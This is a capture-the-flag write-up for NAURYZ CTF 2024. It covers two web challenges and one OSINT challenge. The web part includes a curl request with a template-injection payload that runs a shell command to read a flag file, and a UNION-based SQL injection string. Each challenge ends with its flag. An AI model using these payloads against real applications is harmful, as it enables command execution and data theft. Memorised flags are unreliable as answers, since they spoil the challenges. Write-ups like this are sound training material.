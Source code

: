 # NAURYZ CTF 2024 Write-up

![image](https://github.com/zer00d4y/writeups/assets/128820441/48273d52-3cc4-448c-b409-f2fcba34b0af)

## WEB

### Asena - WEB

![image](https://github.com/zer00d4y/writeups/assets/128820441/2bde51ec-c7e1-4b52-b662-aaa89ebfb436)

SSTI vulnerability

    curl 'http://185.22.64.121:1337/' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://185.22.64.121:1337/' -H 'Origin: http://185.22.64.121:1337' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'sec-ch-ua-platform: "Windows"' -H 'sec-ch-ua: "Google Chrome";v="118", "Chromium";v="118", "Not=A?Brand";v="24"' -H 'sec-ch-ua-mobile: ?0' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw $'quantity=5\n%3C%25=%20%60cat%20flag.txt%60%20%25%3E'

![image](https://github.com/zer00d4y/writeups/assets/128820441/a045aa22-06b5-42d4-856d-0a19543a8ca1)

FLAG:

    nrzCTF{1_9RE3t_YOU_d3sCEnDAn7_OF_Asen@}

### Horse Shop 1 - WEB

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c40eb11-8cd3-469f-8787-8ddf147f7237)

SQL injection, payload `price=' union select 0,1,2,flag,5,6,7 from flag-- -&age=&color=&breed=`

![image](https://github.com/zer00d4y/writeups/assets/128820441/bac89fec-4945-4685-956b-87782c818a0e)

![image](https://github.com/zer00d4y/writeups/assets/128820441/f1f96776-2b8f-48f0-918e-425ff893481e)

FLAG:

    nrzCTF{h0r5e_sh0p_cla55ic_sql1}

# OSINT

### Ganegabla - OSINT

Find Ganegabla's YouTube channel

![image](https://github.com/zer00d4y/writeups/assets/128820441/7170a811-6efd-42ca-a85d-4417b3e486b8)

`nrzCTF{y0u_` `tub3_`


![image](https://github.com/zer00d4y/writeups/assets/128820441/7733dd93-7f46-4729-b6c9-a12d4a0e616f)

`0s1nt_`

![image](https://github.com/zer00d4y/writeups/assets/128820441/88580224-44e8-48f9-a824-cdcd9c76ebf3)

`t4sk}`

![image](https://github.com/zer00d4y/writeups/assets/128820441/5e4cec51-ef22-4d0a-9f21-a10d50eaab82)

FLAG:

    nrzCTF{y0u_tub3_0s1nt_t4sk}

